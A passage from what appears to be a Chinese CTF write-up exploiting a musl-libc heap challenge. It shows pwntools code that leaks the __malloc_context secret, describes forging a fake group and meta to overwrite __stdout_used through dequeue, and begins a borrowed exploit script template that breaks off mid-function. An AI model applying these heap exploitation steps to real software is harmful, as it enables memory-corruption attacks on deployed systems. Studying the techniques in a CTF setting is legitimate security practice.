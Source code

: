 ```python
add(2 , 0 , 'a'*0x10 + p64(__malloc_context) + '\n')
show(3)
ru('t: ')
secret = uu64(8)
```

至此泄露结束

#### orw

最后是unlink利用环节，首先我们可以实现堆溢出，并且可以溢出很多字节，所以我们可以写到 chunk 的index 让其找到一个伪造的 group ，其后根据索引得到一个伪造的 meta ，随后在这个 meta 清低三字节的地方写上 secret，最后删除堆块进行 dequeue 把__stdout_used改了

接下来是orw环节，本题开了sandbox，不能直接用

最后是偷的脚本

```python
# -*- encoding: utf-8 -*-
import sys 
import os 
import requests
from pwn import * 
binary = './musl'
os.system('chmod +x %s'%binary)
context.update( os = 'linux', arch = 'amd64',timeout = 1)
context.binary = binary
context.log_level = 'debug'
elf = ELF(binary)
libc = elf.libc
# libc = ELF('')
DEBUG = 1
if DEBUG:
    libc = elf.libc
    p = process(binary)
    # p = process(['qemu-arm', binary])
    # p = process(['qemu-arm','-g','1234', binary])
    # p = process(['qemu-aarch64','-L','','-g','1234',binary])
else:
    host = ''
    port = ''
    p = remote(host,port)

l64 = lambda            : ras(u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')))
l32 = lambda            : ras(u32(p.recvuntil('\xf7')[-4:].ljust(4,'\x00')))
uu64= lambda a = 6      : ras(u64(p.recv(a).ljust(8,'\x00')))
uu32= lambda a = 4      : ras(u32(p.recv(a).ljust(4,'\x00')))
rint= lambda x = 12     : ras(int( p.recv(x) , 16))
sla = lambda a,b        : p.sendlineafter(str(a),str(b))
sa  = lambda a,b        : p.sendafter(str(a),str(b))
lg  = lambda name,data  : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)
se  = lambda payload    : p.send(payload)
rl  = lambda            : p.recv()
sl  = lambda payload    : p.sendline(payload)
ru  = lambda a          : p.recvuntil(str(a))

def ras( data ):
    lg('leak' , data)
    return data

def dbg( b = null):
    if (b == null):
        gdb.attach(p)
        pause()
    else:
```